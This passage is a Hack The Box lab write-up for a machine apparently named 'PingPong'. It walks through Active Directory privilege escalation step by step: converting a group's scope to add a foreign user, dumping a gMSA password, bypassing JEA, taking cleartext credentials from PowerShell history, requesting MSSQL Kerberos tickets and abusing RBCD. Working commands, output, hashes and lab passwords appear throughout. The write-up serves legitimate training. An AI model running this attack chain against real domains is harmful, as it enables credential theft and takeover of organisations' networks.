[2026-11-24T13:08:28Z INFO  rusthound_ce::json::maker::common] 1 computers parsed!
[2026-11-24T13:08:28Z INFO  rusthound_ce::json::maker::common] .//20261124200828_pong-htb_rusthound-ce.zip created!
```

I exported the users of `PONG.HTB` to a file.

```bash
proxychains nxc smb DC2.pong.htb -u $user -p $pass -d ping.htb -k --users-export pong_users.txt
```

The user list contained accounts including `Administrator`, `C.Carlssen`, `M.Sun`, `P.Reiner`, `svc_sql`, `Pong_gMSA$`, and `R.Martinelli`.

I also inspected SMB shares on `DC2.pong.htb`.

```bash
proxychains nxc smb DC2.pong.htb -u $user -p $pass -d ping.htb -k --shares
```

Only default administrative shares were present (`ADMIN$`, `C$`, `IPC$`, `NETLOGON`, `SYSVOL`), and none contained accessible sensitive files.

---

## Privilege Escalation

### Group Scope Conversion & gMSA Exploitation

I imported the `PONG.HTB` zip file into BloodHound CE and mapped outbound control relationships.





A Group Managed Service Account named `Pong_gMSA$` existed in `pong.htb`. The group `gMSA Managers@pong.htb` had `ReadGMSAPassword` rights over it. (the first image is unecessary but yeafh, nvm)

Tracing ownership showed that `c.roberts` was a member of `IT@ping.htb`, and `IT@ping.htb` had full control/ownership over `gMSA Managers@pong.htb`.

I inspected the group attributes using `bloodyad`.

```bash
KRB5CCNAME=c.roberts.ccache proxychains bloodyad --host DC2.pong.htb -d pong.htb -k get object "gMSA Managers"
```

```
distinguishedName: CN=gMSA Managers,CN=Users,DC=pong,DC=htb
sAMAccountName: gMSA Managers
sAMAccountType: 268435456
objectSid: S-1-5-21-2410575906-3092493790-2123333151-1104
```



`sAMAccountType: 268435456` corresponds to a **Global Security Group**.

#### Why Group Scope Conversion Was Required

Active Directory enforces fundamental restrictions regarding group scopes and cross-domain memberships.
- **Global Security Group (`groupType: -2147483646` / `0x80000002`):** A Global group is designed strictly to organize users with similar network access requirements within its own domain. Under Active Directory architecture, a Global group can **only** contain user accounts and computer accounts that reside in the **same domain**. It is physically impossible to add a Foreign Security Principal (a user from an external domain, such as `c.roberts` from `ping.htb`) into a Global group.
- **Universal Security Group (`groupType: -2147483640` / `0x80000008`):** Can contain accounts and global groups from any domain within the same forest.
- **Domain Local Security Group (`groupType: -2147483644` / `0x80000004`):** Specifically designed to assign access permissions to local resources. A Domain Local group can contain members from **any domain in any trusted forest**, including foreign user accounts.

Because `gMSA Managers` was a Global group, directly adding `c.roberts` failed. To add an external user, the group had to become a **Domain Local Group**.

However, Active Directory directory service schema rules forbid converting a Global group directly to a Domain Local group in a single transition. The allowed conversion path defined by Microsoft requires transitioning through a Universal group first.

The common `groupType` integer values (signed 32-bit integers) are listed below.
- **Security Global Group:** `-2147483646` (`0x80000002`)
- **Security Universal Group:** `-2147483640` (`0x80000008`)
- **Security Domain Local Group:** `-2147483644` (`0x80000004`)

Using my ownership permissions via `bloodyad`, I changed the `groupType` in two sequential steps.

First, I changed `gMSA Managers` from Global to Universal (`-2147483640`).

```bash
KRB5CCNAME=c.roberts.ccache proxychains bloodyad --host DC2.pong.htb -d pong.htb -k set object "gMSA Managers" groupType -v -2147483640
```

```
[+] gMSA Managers's groupType has been updated
```

Second, I changed `gMSA Managers` from Universal to Domain Local (`-2147483644`).

```bash
KRB5CCNAME=c.roberts.ccache proxychains bloodyad --host DC2.pong.htb -d pong.htb -k set object "gMSA Managers" groupType -v -2147483644
```

```
[+] gMSA Managers's groupType has been updated
```



Important Note: it's still `2147483646` bcz i took ss when it was by default. but then i change it to `2147483644`.
Now that `gMSA Managers` was a Domain Local group, I added the foreign user `c.roberts` by his SID (`S-1-5-21-750635624-2058721901-1932338391-2617`).

```bash
KRB5CCNAME=c.roberts.ccache proxychains bloodyad --host DC2.pong.htb -d pong.htb -k add groupMember "gMSA Managers" S-1-5-21-750635624-2058721901-1932338391-2617
```

```
[+] S-1-5-21-750635624-2058721901-1932338391-2617 added to gMSA Managers
```



With `c.roberts` officially a member of `gMSA Managers`, I dumped the gMSA password using NetExec.

```bash
proxychains nxc ldap DC2.pong.htb -k -u $user -p $pass -d ping.htb --gmsa
```

> [!Tip]
> Note on Kerberos cross-realm querying: When querying `DC2.pong.htb` using `c.roberts`, passing `-d pong.htb` may produce `KDC_ERR_WRONG_REALM Detail: "Incorrect domain or principal"`. This happens because `c.roberts` exists only in `ping.htb`. Passing `-d ping.htb` ensures the ticket request begins at `ping.htb`'s KDC, which provides the proper cross-realm referral ticket to `pong.htb`.

NetExec successfully retrieved the Group Managed Service Account credentials.

```
LDAP        DC2.pong.htb    389    DC2              [+] ping.htb\c.roberts:AssumedBreach123 
LDAP        DC2.pong.htb    389    DC2              [*] Getting GMSA Passwords
LDAP        DC2.pong.htb    389    DC2              Account: Pong_gMSA$           NTLM: 989bd748ac8dd0b71ab24edccc9fc012     PrincipalsAllowedToReadPassword: gMSA Managers
LDAP        DC2.pong.htb    389    DC2              Account: Pong_gMSA$           aes128-cts-hmac-sha1-96: 97cefa17dcaec66d9b52a97be398acf0
LDAP        DC2.pong.htb    389    DC2              Account: Pong_gMSA$           aes256-cts-hmac-sha1-96: 725f29ca3b45942c57a4e8576532f0262c55edfdce59bdcd4b411f4566ea1aa6
```



I requested a TGT for `Pong_gMSA$` using its AES256 key with Impacket's `getTGT.py`.

```bash
proxychains getTGT.py pong.htb/Pong_gMSA$ -aesKey "725f29ca3b45942c57a4e8576532f0262c55edfdce59bdcd4b411f4566ea1aa6"
export KRB5CCNAME=/home/wakamiya/VirtualLab/HTB/PingPong/Pong_gMSA\$.ccache
```

### JEA Bypass via Native PowerShell & Credential Discovery

In BloodHound, `Pong_gMSA$` had permission to access a Just Enough Administration (JEA) WinRM session configuration named `restricted` on `dc1.ping.htb`.

I initially attempted to connect to the restricted configuration using `evil-winrm-py`.

```bash
KRB5_TRACE=/dev/stderr proxychains evil-winrm-py -i DC1.ping.htb -k -c restricted
```

The shell opened into JEA mode, but standard command execution completely broke down.

```
[*] Connecting to 'DC1.ping.htb:5985' as 'Pong_gMSA$@PONG.HTB' using config 'restricted'
[%] JEA mode: Commands run as cmdlet pipelines. Run 'Get-Command' to see allowed cmdlets.
evil-winrm-py PS (JEA)> gci
The term 'gci' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
evil-winrm-py PS (JEA)> get-command
Clear-Host
Exit-PSSession
Get-Command
Get-FormatData
Get-Help
Measure-Object
Out-Default
Select-Object

The term '&{' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
evil-winrm-py PS (JEA)> Get-Help Get-Command -Full
A parameter cannot be found that matches parameter name 'Full'.
evil-winrm-py PS (JEA)> Get-Help
Cannot find a provider with the name 'FileSystem'.
```

`evil-winrm-py` failed because it automatically wraps commands inside `&{ ... }` execution blocks, which the JEA configuration actively blocked. Furthermore, parameter filtering disallowed `-Full`, and the FileSystem provider was inaccessible through the evil-winrm pipeline.

To interact with JEA properly without tool-level wrapping, I switched to native Linux PowerShell (`pwsh`). I installed and imported the `PSWSMan` module.

```bash
sudo pwsh -Command 'Install-Module -Name PSWSMan -RequiredVersion 3.0.0 -Scope AllUsers -Force'
```

Now, within native `pwsh` with `KRB5CCNAME` set, I entered the WinRM session using `Enter-WinRMSession`.

```powershell
KRB5CCNAME=Pong_gMSA\$.ccache pwsh
Import-Module PSWSMan -RequiredVersion 3.0.0
Enter-WinRMSession -ComputerName dc1.ping.htb -ConfigurationName restricted -Authentication Kerberos
```

I checked the language mode of the JEA session.

```powershell
[dc1.ping.htb]: PS>$ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```

Because native PowerShell handles scriptblocks directly over WS-Management, using the invocation operator `&{ ... }` directly allowed executing cmdlets under Constrained Language Mode.

```powershell
[dc1.ping.htb]: P> &{ whoami }
pong\pong_gmsa$
```

The working directory contained JEA configuration files. I examined `JEAconfig_backup.pssc` to understand how the endpoint was defined.

```powershell
[dc1.ping.htb]: PS>&{ type JEAconfig_backup.pssc }
```

```powershell
@{
    SchemaVersion = '2.0.0.0'
    GUID = '54906d16-7873-47d3-81f1-fc8d29748ecf'
    Author = 'Pong\C.Carlssen'
    SessionType = 'RestrictedRemoteServer'
    TranscriptDirectory = 'C:\ProgramData\JEAConfiguration\Transcripts'
    RunAsVirtualAccount = $true
    RoleDefinitions = @{
        'Pong\C.Carlssen' = @{
            'RoleCapabilities' = 'ITAccess' } }
}
```

The author was `Pong\C.Carlssen`, and the configuration ran as a virtual administrator account. I inspected the role capability definition `ITAccess.psrc`.

```powershell
[dc1.ping.htb]: PS>&{ type ITAccess.psrc }
```

```powershell
@{
    GUID = 'b6f3b4e1-9a2e-4c0a-9c8e-0e1b5a9f1234'
    Author = 'Administrator'
    CompanyName = 'Ping.htb'
    
    VisibleCmdlets = @(
        'Get-Service', 'Restart-Service', 'Get-EventLog', 'Get-History',
        'Get-NetIPConfiguration', 'Get-NetIPAddress', 'Get-NetRoute',
        'Test-Connection', 'Resolve-DnsName'
    )
    VisibleExternalCommands = @('ipconfig.exe', 'ping.exe', 'tracert.exe', 'nslookup.exe')
    VisibleProviders = @('FileSystem')
    LanguageMode = 'NoLanguage'
}
```

Now operating inside `dc1.ping.htb` under the virtual account, I searched for credentials and privilege escalation paths. I first checked the Recycle Bin and ran `cmdkey /list` to see if cached Windows credentials existed, but found nothing.

In Windows environments, user profile directories especially `%userprofile%\AppData` frequently retain application logs, configuration files, and PowerShell history.

I inspected the user profile of `Pong_gMSA$`.

```powershell
[dc1.ping.htb]: P> &{Get-ChildItem -force}
```

```
    Directory: C:\Users\Pong_gMSA$

Mode                 LastWriteTime         Length Name                                
----                 -------------         ------ ----                                
d--h--         1/19/2026   1:33 PM                AppData                             
d--hsl         1/19/2026   1:33 PM                Application Data                    
d--hsl         1/19/2026   1:33 PM                Cookies                             
d-r---          5/8/2021   1:20 AM                Desktop                             
d-r---         1/30/2026   9:09 AM                Documents
```

I performed a recursive search across the profile for text files, scripts, and modules.

```powershell
[dc1.ping.htb]: P> &{Get-ChildItem -Recurse -Force -File -Include *.txt, *.ps1, *.psm1}
```

The search scanned the directory tree and located a PSReadLine console history file.

```
    Directory: C:\Users\Pong_gMSA$\appdata\Roaming\Microsoft\Windows\PowerShell\PSReadLine

Mode                 LastWriteTime         Length Name                                
----                 -------------         ------ ----                                
-a----         4/21/2026   3:24 PM           2890 ConsoleHost_history.txt
```

I displayed the contents of `ConsoleHost_history.txt`.

```powershell
[dc1.ping.htb]: P> &{type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt}
```

```powershell
ls
ls -force
hostname
whoami
whoami /all
...
Import-Module ActiveDirectory
Get-ADDomain
Get-ADUser -Filter *
Get-ADUser -Identity Administrator
Get-ADGroup -Filter * -Server pong.htb
Getadgroup
Get-adgroup "remote management users" -server pong.htb
$c = New-object System.management.automation.pscredential("pong\c.carlssen",$(convertto-securestring -asplaintext -force "A()DUJ!@414"))
Enter-pssession -computername dc2.pong.htb -credential $c
Get-ADComputer -Filter *
Get-ADUser -Filter * | Select-Object Name
...
```

The history revealed cleartext credentials for domain user `c.carlssen`.

```
Username: c.carlssen
Password: A()DUJ!@414
Domain: PONG.HTB
```

I verified the discovered credentials against `dc2.pong.htb` via LDAP.

```bash
proxychains nxc ldap dc2.pong.htb -u c.carlssen -p 'A()DUJ!@414' -k
```

```
LDAP        dc2.pong.htb    389    DC2              [+] pong.htb\c.carlssen:A()DUJ!@414
```

I requested a TGT for `c.carlssen` and saved it to `c.carlssen.ccache`.

```bash
proxychains getTGT.py pong.htb/c.carlssen:'A()DUJ!@414' -k
export KRB5CCNAME=c.carlssen.ccache
```

I established an Evil-WinRM session directly onto `dc2.pong.htb`.

```bash
proxychains evil-winrm-py -i dc2.pong.htb -k
```

```
[*] Connecting to 'dc2.pong.htb:5985' as 'c.carlssen@PONG.HTB'
evil-winrm-py PS C:\Users\C.Carlssen\Documents> cd ../Desktop
evil-winrm-py PS C:\Users\C.Carlssen\Desktop> type user.txt
d798378b9bc6ecda372136cd1ff06a72
```

The user flag was captured.

### MSSQL Enumeration & Service-Specific Kerberos Tickets

Continuing enumeration on `dc2.pong.htb`, I checked installed software and located a Microsoft SQL Server 2022 instance.

```
C:\Program Files\Microsoft SQL Server\MSSQL16.MSSQLSERVER\MSSQL
```

MSSQL instances sometimes listen on alternative ports like 1443. I attempted to connect using `mssqlclient.py` over proxychains on port 1443.

```bash
proxychains mssqlclient.py -k -windows-auth dc2.pong.htb -port 1443
```

The connection was actively refused.

```
ConnectionRefusedError: [Errno 111] Connection refused
```

I retried without specifying a custom port (defaulting to port 1433), but authentication failed.

```
[-] Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
```

#### Kerberos Service Tickets (TGS) for MSSQL

When connecting to an MSSQL server using Windows Authentication over Kerberos, having a basic logon TGT is not enough. The database client must negotiate a Service Ticket (TGS) issued specifically for the MSSQL service principal. Without an explicitly requested ticket matching this SPN, the client attempts to derive an SPN or falls back to standard host tickets, resulting in principal mismatch errors.

I requested a ticket targeting the MSSQL service principal using Impacket's `getST.py`.

```bash
proxychains getST.py -spn mssqlsvc/dc2.pong.htb pong.htb/c.carlssen:'A()DUJ!@414' -k
```

I checked my ticket cache with `klist`.

```
11/25/2026 05:44:07  11/25/2026 15:44:07  mssqlsvc/dc2.pong.htb@PONG.HTB
```



With the dedicated service ticket in cache, I connected to MSSQL.

```bash
KRB5CCNAME=c.carlssen.ccache proxychains mssqlclient.py -k -windows-auth dc2.pong.htb
```

```
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
SQL (pong\C.Carlssen  guest@master)> 
```

The connection succeeded, but I landed with only `guest` privileges on `master`.

I enumerated database users and databases.

```sql
SQL (pong\C.Carlssen  guest@master)> enum_db
name     is_trustworthy_on   
------   -----------------   
master                   0   
tempdb                   0   
model                    0   
msdb                     1   

SQL (pong\C.Carlssen  guest@master)> enum_users
UserName             RoleName   LoginName   DefDBName   DefSchemaName       UserID     SID   
------------------   --------   ---------   ---------   -------------   ----------   -----   
dbo                  db_owner   sa          master      dbo             b'1         '   b'01'   
guest                public     NULL        NULL        guest           b'2         '   b'00'   
```

As `guest`, executing commands or enabling `xp_cmdshell` was prohibited.

### RBCD Abuse on svc_sql & Impersonating P.REINER

I returned to BloodHound to identify accounts with high privileges on the database service.



The group `DATABASE ADMINS@PONG.HTB` had full administrative rights on the SQL Server. Its members included `P.REINER` and `C.ADAM`.

Furthermore, BloodHound showed that `c.carlssen` was a member of `IT SERVICE ADMINS@PONG.HTB`, which possessed `GenericWrite` permissions over the service account `SVC_SQL@PONG.HTB`.





And `SVC_SQL@PONG.HTB` held `SQLAdmin` rights on `DC2.PONG.HTB`.



#### Exploiting Resource-Based Constrained Delegation (RBCD)

Because `c.carlssen` had `GenericWrite` on `svc_sql`, I could modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the `svc_sql` account. By writing the security descriptor of an account I controlled (`Pong_gMSA$`), I could execute an S4U2Self and S4U2Proxy Kerberos delegation attack to impersonate any user in the domain specifically `P.REINER` to access the MSSQL service.

I configured RBCD on `svc_sql` using `bloodyad`.

```bash
export KRB5CCNAME=c.carlssen.ccache
proxychains bloodyad --host dc2.pong.htb -k -d pong.htb add rbcd svc_sql Pong_gMSA$
```

```
[!] No security descriptor has been returned, a new one will be created
[+] Pong_gMSA$ can now impersonate users on svc_sql via S4U2Proxy
```

